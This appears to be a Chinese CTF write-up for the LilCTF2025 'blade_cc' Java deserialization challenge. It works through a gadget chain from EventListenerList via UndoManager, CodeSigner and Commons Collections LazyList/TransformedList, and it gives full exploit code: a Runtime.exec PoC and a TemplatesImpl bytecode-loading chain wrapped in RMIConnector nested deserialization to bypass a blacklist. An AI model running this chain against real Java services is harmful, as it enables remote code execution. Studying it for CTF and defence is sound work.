







+++
title= "LILCTF2025 BladeCC"
slug= "lilctf2025-blade-cc"
description= ""
date= "2025-10-29T22:36:22+08:00"
lastmod= "2025-10-29T22:36:22+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

## 前言

首先放出题目仓库，有仓库的比赛向来是好比赛😏

> https://github.com/Lil-House/LilCTF-2025/tree/main/challenges/web-blade-cc/build
>
> blade_cc
>
> **出题**：N1ght
>
> **难度**：困难
>
> 题目描述：
>
> 万恶的n1ght，留出了一个反序列化入口，但是他做了黑名单和不出网，你能想办法完成这个挑战吗？

## 题目

### 分析

一看黑名单，CC依赖，可利用 RMIConnector 二次反序列化绕过，开始利用链分析

在`EventListenerList#readObject`中有一个 add 方法，会动态加载并监听类

```java
    private void readObject(ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        listenerList = NULL_ARRAY;
        s.defaultReadObject();
        Object listenerTypeOrNull;

        while (null != (listenerTypeOrNull = s.readObject())) {
            ClassLoader cl = Thread.currentThread().getContextClassLoader();
            EventListener l = (EventListener)s.readObject();
            String name = (String) listenerTypeOrNull;
            ReflectUtil.checkPackageAccess(name);
            add((Class<EventListener>)Class.forName(name, true, cl), l);
        }
    }
```

跟进

```java
public synchronized <T extends EventListener> void add(Class<T> t, T l) {
        if (l==null) {
            // In an ideal world, we would do an assertion here
            // to help developers know they are probably doing
            // something wrong
            return;
        }
        if (!t.isInstance(l)) {
            throw new IllegalArgumentException("Listener " + l +
                                         " is not of type " + t);
        }
        if (listenerList == NULL_ARRAY) {
            // if this is the first listener added,
            // initialize the lists
            listenerList = new Object[] { t, l };
        } else {
            // Otherwise copy the array and add the new listener
            int i = listenerList.length;
            Object[] tmp = new Object[i+2];
            System.arraycopy(listenerList, 0, tmp, 0, i);

            tmp[i] = t;
            tmp[i+1] = l;

            listenerList = tmp;
        }
    }
```

关键在于这里



```
"Listener " + l` 会隐式调用 `l.toString()
// 等效于：
new StringBuilder()
    .append("Listener ")
    .append(l)
    .append(" is not of type ")
    .append(t)
    .toString();
```

所以就到了`StringBuilder#append`，一直跟进到`CompoundEdit#toString`

```java
    public String toString()
    {
        return super.toString()
            + " inProgress: " + inProgress
            + " edits: " + edits;
    }
```

当编译器遇到字符串拼接 (`+`) 时，会自动转换为 `StringBuilder` 操作，继续到`AbstractCollection#toString`

```java
public String toString() {
        Iterator<E> it = iterator();
        if (! it.hasNext())
            return "[]";

        StringBuilder sb = new StringBuilder();
        sb.append('[');
        for (;;) {
            E e = it.next();
            sb.append(e == this ? "(this Collection)" : e);
            if (! it.hasNext())
                return sb.append(']').toString();
            sb.append(',').append(' ');
        }
    }
sb.append(e == this ? "(this Collection)" : e);`如果传入的是 List 就可以成功触发`StringBuilder`，接着到`CodeSigner#toString
public String toString() {
    StringBuffer sb = new StringBuffer();
    sb.append("(");
    sb.append("Signer: " + signerCertPath.getCertificates().get(0));
    if (timestamp != null) {
        sb.append("timestamp: " + timestamp);
    }
    sb.append(")");
    return sb.toString();
}
```

需要触发 get 方法，然后就可以到LazyMap\LazyList，由于上一步到 AbstractCollection 的时候，我们必须是个 List，所以接着看`LazyList#get`

```java
public Object get(int index) {
        int size = this.getList().size();
        if (index < size) {
            Object object = this.getList().get(index);
            if (object == null) {
                object = this.factory.create();
                this.getList().set(index, object);
                return object;
            } else {
                return object;
            }
        } else {
            for(int i = size; i < index; ++i) {
                this.getList().add((Object)null);
            }

            Object object = this.factory.create();
            this.getList().add(object);
            return object;
        }
    }
```

接着到`TransformedList#set`

```java
    public Object set(int index, Object object) {
        object = this.transform(object);
        return this.getList().set(index, object);
    }
```

获取 Unsafe 实例，方便等会篡改对象内存布局，便于构造 CodeSigner 对象，

```java
X509CertPath certPath = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
unsafe.putObject(certPath, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), decorate);

Object codeSigner = unsafe.allocateInstance(CodeSigner.class);
unsafe.putObject(codeSigner, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), certPath);
```

再加上 EventListenerList为触发入口，

```java
EventListenerList listenerList = new EventListenerList();
UndoManager undoManager = new UndoManager();
Vector edits = (Vector) getFieldValue(undoManager, "edits");
edits.add(codeSigner);
unsafe.putObject(listenerList, unsafe.objectFieldOffset(listenerList.getClass().getDeclaredField("listenerList")),
        new Object[]{InternalError.class, undoManager});
```

### agent



由于 CertPath 重写了 writeReplace 导致序列化异常，用Java agent 进行 hook

```java
package org.example;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.Instrumentation;
import java.security.ProtectionDomain;

public class RemoveReplaceTransformer implements ClassFileTransformer {

    public static void premain(String agentArgs, Instrumentation inst) {
        inst.addTransformer(new RemoveReplaceTransformer());
    }

    @Override
    public byte[] transform(ClassLoader loader, String className,
                            Class<?> classBeingRedefined,
                            ProtectionDomain protectionDomain,
                            byte[] classfileBuffer) {
        if ("java/security/cert/CertPath".equals(className)) {
            try {
                System.out.println("[Agent] Patching CertPath...");
                ClassPool pool = ClassPool.getDefault();
                CtClass ctClass = pool.get("java.security.cert.CertPath");

                CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
                ctClass.removeMethod(writeReplace);

                byte[] modifiedClass = ctClass.toBytecode();
                ctClass.detach();

                System.out.println("[Agent] Successfully removed writeReplace method");
                return modifiedClass;
            } catch (Exception e) {
                System.err.println("[Agent] Failed to modify CertPath:");
                e.printStackTrace();
            }
        }
        return null;
    }
}
```



用 Ali 的仓库，避免打包失败

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>agent</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <javassist.version>3.28.0-GA</javassist.version>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <repositories>
        <repository>
            <id>aliyun</id>
            <name>Aliyun Maven Repository</name>
            <url>https://maven.aliyun.com/repository/public</url>
            <releases>
                <enabled>true</enabled>
            </releases>
            <snapshots>
                <enabled>true</enabled>
            </snapshots>
        </repository>
    </repositories>

    <pluginRepositories>
        <pluginRepository>
            <id>aliyun</id>
            <name>Aliyun Plugin Repository</name>
            <url>https://maven.aliyun.com/repository/public</url>
            <releases>
                <enabled>true</enabled>
            </releases>
            <snapshots>
                <enabled>true</enabled>
            </snapshots>
        </pluginRepository>
    </pluginRepositories>

    <dependencies>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-jar-plugin</artifactId>
                <version>3.2.2</version>
                <configuration>
                    <archive>
                        <manifestEntries>
                            <Premain-Class>org.example.RemoveReplaceTransformer</Premain-Class>
                            <Can-Redefine-Classes>true</Can-Redefine-Classes>
                            <Can-Retransform-Classes>true</Can-Retransform-Classes>
                        </manifestEntries>
                    </archive>
                </configuration>
            </plugin>
        </plugins>
    </build>
</project>
```

`mvn clean package`打包成 jar 包，然后点击 IDEA 顶部菜单栏的 `Run` → `Edit Configurations...`，在`VM options`输入框中添加

```java
-javaagent:"/Users/admin/Downloads/Jaba/agent/target/agent-1.0-SNAPSHOT.jar"
```



```java
package org.example.Exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.list.LazyList;
import org.apache.commons.collections.list.TransformedList;
import org.apache.commons.collections.map.ListOrderedMap;
import sun.misc.Unsafe;
import sun.security.provider.certpath.X509CertPath;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.lang.reflect.Field;
import java.security.CodeSigner;
import java.util.*;

public class BladeCCPoc {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {
                new ConstantTransformer(1)
        };
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String[].class },
                        new Object[]{new String[]{"open", "-a", "Calculator"}}),
                new ConstantTransformer(1)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        ArrayList<Object> list = new ArrayList<>();
        list.add(null);

        List decorate1 = TransformedList.decorate(list, chainedTransformer);
        List decorate = LazyList.decorate(decorate1, new ConstantFactory(chainedTransformer));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);

        X509CertPath certPath = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(certPath,
                unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")),
                decorate);

        Object codeSigner = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(codeSigner,
                unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")),
                certPath);

        EventListenerList listenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector edits = (Vector) getFieldValue(undoManager, "edits");
        edits.add(codeSigner);

        unsafe.putObject(listenerList,
                unsafe.objectFieldOffset(listenerList.getClass().getDeclaredField("listenerList")),
                new Object[]{InternalError.class, undoManager});


        setFieldValue(chainedTransformer,"iTransformers",transformers);

        byte[] payload = serialize(listenerList);
        unserialize(payload);
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }

    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }

    public static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException var4) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

调用栈

```java
at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:120)
at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:123)
at org.apache.commons.collections.collection.TransformedCollection.transform(TransformedCollection.java:92)
at org.apache.commons.collections.list.TransformedList.set(TransformedList.java:122)
at org.apache.commons.collections.list.LazyList.get(LazyList.java:118)
at java.security.CodeSigner.toString(CodeSigner.java:159)
at java.lang.String.valueOf(String.java:2994)
at java.lang.StringBuilder.append(StringBuilder.java:131)
at java.util.AbstractCollection.toString(AbstractCollection.java:462)
at java.util.Vector.toString(Vector.java:1000)
at java.lang.String.valueOf(String.java:2994)
at java.lang.StringBuilder.append(StringBuilder.java:131)
at javax.swing.undo.CompoundEdit.toString(CompoundEdit.java:258)
at javax.swing.undo.UndoManager.toString(UndoManager.java:621)
at java.lang.String.valueOf(String.java:2994)
at java.lang.StringBuilder.append(StringBuilder.java:131)
at javax.swing.event.EventListenerList.add(EventListenerList.java:187)
at javax.swing.event.EventListenerList.readObject(EventListenerList.java:277)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.example.Exp.BladeCCPoc.unserialize(BladeCCPoc.java:97)
at org.example.Exp.BladeCCPoc.main(BladeCCPoc.java:77)
```



### 二次反序列化&&内存马

二次反序列化我们直接加上即可，为了方便加载字节码这里直接写 templates，像 CC3 一样去改即可

```java
package org.example.Exp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.list.LazyList;
import org.apache.commons.collections.list.TransformedList;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.ListOrderedMap;
import sun.misc.Unsafe;
import sun.security.provider.certpath.X509CertPath;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.lang.reflect.Field;
import java.security.CodeSigner;
import java.util.*;

public class BladeCCPoc {
    public static void main(String[] args) throws Exception {
        String payload = generateTemplatesPayload();
        executeWithRMIConnector(payload);
    }

    public static String generateTemplatesPayload() throws Exception {
        byte[] bytecode = ClassPool.getDefault().get(org.example.Base.Eval.class.getName()).toBytecode();
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytecode});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        ArrayList<Object> list = new ArrayList<>();
        List decorate1 = TransformedList.decorate(list, chainedTransformer);
        List decorate = LazyList.decorate(decorate1, new ConstantFactory(chainedTransformer));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);
        
        X509CertPath certPath = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(certPath, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), decorate);

        Object codeSigner = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(codeSigner, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), certPath);

        EventListenerList listenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector edits = (Vector) getFieldValue(undoManager, "edits");
        edits.add(codeSigner);

        unsafe.putObject(listenerList, unsafe.objectFieldOffset(listenerList.getClass().getDeclaredField("listenerList")),
                new Object[]{InternalError.class, undoManager});

        setFieldValue(chainedTransformer, "iTransformers", transformers);

        return serialize2Base64(listenerList);
    }

    public static void executeWithRMIConnector(String base64) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/" + base64);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        Transformer fakeConnect = new ConstantTransformer(1);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, fakeConnect);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);
        HashMap<Object, Object> hashMap1 = new HashMap<>();
        hashMap1.put(tiedMapEntry, "2");
        lazyMap.remove(rmiConnector);

        setFieldValue(lazyMap, "factory", new InvokerTransformer("connect", null, null));

        byte[] serialize = serialize(hashMap1);
        unserialize(serialize);
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static String serialize2Base64(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static byte[] serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }

    public static void unserialize(byte[] bytes) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(bytes));
        objectInputStream.readObject();
    }

    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }

    public static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException var4) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

调用栈

```java
at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:120)
at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:123)
at org.apache.commons.collections.collection.TransformedCollection.transform(TransformedCollection.java:92)
at org.apache.commons.collections.collection.TransformedCollection.add(TransformedCollection.java:113)
at org.apache.commons.collections.list.LazyList.get(LazyList.java:131)
at java.security.CodeSigner.toString(CodeSigner.java:159)
at java.lang.String.valueOf(String.java:2994)
at java.lang.StringBuilder.append(StringBuilder.java:131)
at java.util.AbstractCollection.toString(AbstractCollection.java:462)
at java.util.Vector.toString(Vector.java:1000)
at java.lang.String.valueOf(String.java:2994)
at java.lang.StringBuilder.append(StringBuilder.java:131)
at javax.swing.undo.CompoundEdit.toString(CompoundEdit.java:258)
at javax.swing.undo.UndoManager.toString(UndoManager.java:621)
at java.lang.String.valueOf(String.java:2994)
at java.lang.StringBuilder.append(StringBuilder.java:131)
at javax.swing.event.EventListenerList.add(EventListenerList.java:187)
at javax.swing.event.EventListenerList.readObject(EventListenerList.java:277)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at javax.management.remote.rmi.RMIConnector.findRMIServerJRMP(RMIConnector.java:2009)
at javax.management.remote.rmi.RMIConnector.findRMIServer(RMIConnector.java:1926)
at javax.management.remote.rmi.RMIConnector.connect(RMIConnector.java:287)
at javax.management.remote.rmi.RMIConnector.connect(RMIConnector.java:249)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:126)
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:158)
at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:74)
at org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode(TiedMapEntry.java:121)
at java.util.HashMap.hash(HashMap.java:338)
at java.util.HashMap.readObject(HashMap.java:1397)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
